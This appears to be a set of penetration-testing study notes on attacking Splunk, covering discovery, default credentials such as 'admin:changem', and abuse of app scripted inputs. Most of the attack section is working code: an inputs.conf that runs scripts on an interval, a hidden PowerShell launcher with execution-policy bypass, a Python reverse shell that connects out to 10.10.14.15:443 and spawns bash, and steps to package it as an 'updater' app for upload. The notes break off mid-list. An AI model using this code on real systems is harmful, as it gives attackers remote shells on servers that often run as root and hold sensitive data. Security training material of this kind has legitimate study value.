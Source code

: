 * Log analytics tool used to gather, analyse and visualise data. 
* Often used as SIEM
* Often used to house sensitive data.
* Not many vulnerabilities, so most focus on weak authentication. 
# Discovery and Enumeration 
## Discovery
* Often run as root or SYSTEM. 
* Rare to be seen externally facing. 
* Runs on port 8000 as default.
* Default creds `admin:changem`
	* Newer versions set credentials on installation.
	* Common weak passwords like `admin`,`welcome1 etc...
## Enumeration 
* The splunk enterprise trial converts to free after 60days which doesn't require auth.
* Splunk can run code in a number of ways. 
* Designed to give `STDOUT` as input for splunk
# Attacking Spunk
## Abusing Built-In Functionality 
* Bin directory in [this](https://github.com/0xjpuff/reverse_shell_splunk) repo has examples for Python and Powershell
* [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. 
Example:
```shell
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
* File to run the script
#### Windows
```shell
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```
#### Linux
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
* Create a tarball 
```shell
tar -cvzf updater.tar.gz splunk_shell/
```
* Install app from File and upload
* Start a listner
* 